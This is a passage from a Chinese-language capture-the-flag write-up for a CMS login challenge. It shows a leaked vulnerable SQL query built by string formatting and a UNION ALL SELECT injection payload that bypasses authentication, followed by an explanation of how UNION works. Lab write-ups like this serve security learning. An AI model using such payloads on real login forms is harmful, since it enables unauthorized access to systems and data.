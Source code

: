 看到帳號密碼就是要先下個單引號，結果就噴出 exception 了
![](/images/ctf/part1-cms-v2-1-03.png)

根據 error 的 sql  
`cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')`
可以推斷出他是透過 username select 出來後再用程式比對密碼  
有 SQL Injectiob 的話，就可以走 union all select 的套路
username: `'union all select 1#`
password: `1`
![](/images/ctf/part1-cms-v2-1-04.png)
> 補充:  
> `union all select` 可以組合前一個和後一個 SQL 結果
> 假設 `select username from admins where uername = 'admin'` 會回傳 `admin`
> 但如果是 `select username from admins where uername = 'not_exists'` 會回傳空的東西
> 配合 `union all select` 的話
> `select username from admins where uername = 'admin' union all select 1` 會回傳 `admin`, `1` 兩個值  
> 那如果是 `select username from admins where uername = 'not_exists' union all select 1` 只會回傳 `1`

登入成功後，可以看到有一個 Private Page 
![](/images/ctf/part1-cms-v2-1-05.png)
